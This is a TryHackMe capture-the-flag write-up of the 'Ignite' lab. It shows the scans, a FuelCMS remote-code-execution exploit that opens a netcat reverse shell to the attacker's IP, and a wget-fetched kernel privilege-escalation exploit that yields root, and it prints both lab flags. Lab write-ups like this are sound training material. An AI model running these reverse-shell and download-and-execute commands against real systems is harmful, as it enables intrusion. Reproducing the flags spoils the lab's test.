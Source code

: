 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Running some basic `nmap` scans:

```shell-session
$ sudo nmap -sS -vv -p- -oN nmap_stealth_scan.txt 10.10.97.204
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

$ sudo nmap -sV -p80 -vv -oN nmap_service_scan.txt 10.10.97.204
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

$ sudo nmap -sC --script=vuln -vv -oN nmap_vuln_scan.txt 10.10.97.204
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|   /0/: Potentially interesting folder
|   /home/: Potentially interesting folder
|_  /index/: Potentially interesting folder
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
```

Now, time for some directory enumeration/traversal stuff:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://10.10.53.109/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dirlist2_3.txt

$ cat gobuster_dirlist2_3.txt | grep "Status: 200"                        
/index.php            (Status: 200) [Size: 16595]
/index                (Status: 200) [Size: 16595]
/home                 (Status: 200) [Size: 16595]
/0                    (Status: 200) [Size: 16595]
/robots.txt           (Status: 200) [Size: 30]
```

The `robots.txt` file is exposed, let's check what it contains:
```txt
## curl http://10.10.53.109/robots.txt
User-agent: *
Disallow: /fuel/
```

Hmm, it seems like the dev is trying to block access to the `/fuel/` directory. The home page of the website at `http://TARGET_IP/` shows us the following:
![](home_page.png)



Checking ExploitDB for some existing exploits for _FuelCMS version 1.4_ shows us 3 different options for gaining initial access, SQL injections, RCE exploits and a CSRF vulnerability that's in version 1.5. I'll be using [this](https://www.exploit-db.com/exploits/50477), based on [CVE-2018-16763](###### [2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)) for this writeup.

## Gaining Access

```shell-session
$ python3 50477.py -u http://10.10.53.109/        
[+]Connecting...
Enter Command $rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.45.44 4444 >/tmp/f


# On our machine (in a different session):
$ nc -nvlp 4444         
listening on [any] 4444 ...
connect to [10.14.45.44] from (UNKNOWN) [10.10.53.109] 44732
sh: 0: can't access tty; job control turned off

$ python -c "import pty; pty.spawn('/bin/bash')"      
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html$ ls
ls
README.md  assets  composer.json  contributing.md  fuel  index.php  robots.txt

# Lets alter the robots file so that we can access the fuel directory and its contents...
www-data@ubuntu:/var/www/html$ echo "User-agent: *" >  robots.txt
www-data@ubuntu:/var/www/html$ echo "Allow: /" >> robots.txt
www-data@ubuntu:/var/www/html$ cat robots.txt
User-agent: *
Allow: /

# and... now the flag :)
www-data@ubuntu:/$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

> User flag
> Answer: `6470e394cbf6dab6a91682cc8585059b`

## Privilege Escalation

```
$ www-data@ubuntu:/home/www-data$ uname -a
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/home/www-data$ gcc -v
...
gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 

# On our machine:
$ python3 -m http.server 8080

# On the target machine shell session:
www-data@ubuntu:/home/www-data$ cd /tmp
www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/linpeas.sh
www-data@ubuntu:/tmp$ sh linpeas.sh
...


╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                   

Potentially Vulnerable to CVE-2022-2588
...

```

I once again searched ExploitDB and came across [this exploit](https://www.exploit-db.com/exploits/50689) that allows privilege escalation. 

```

www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/evil-so.c
www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/exploit.c
www-data@ubuntu:/tmp$ wget http://10.14.45.44:8080/Makefile
www-data@ubuntu:/tmp$ make
...
www-data@ubuntu:/tmp$ ./exploit
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
b9bbcb33e11b80be759c4e844862482d
```

> Root flag
> Answer: `b9bbcb33e11b80be759c4e844862482d`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Ignite by DarkStar7471](https://tryhackme.com/room/ignite)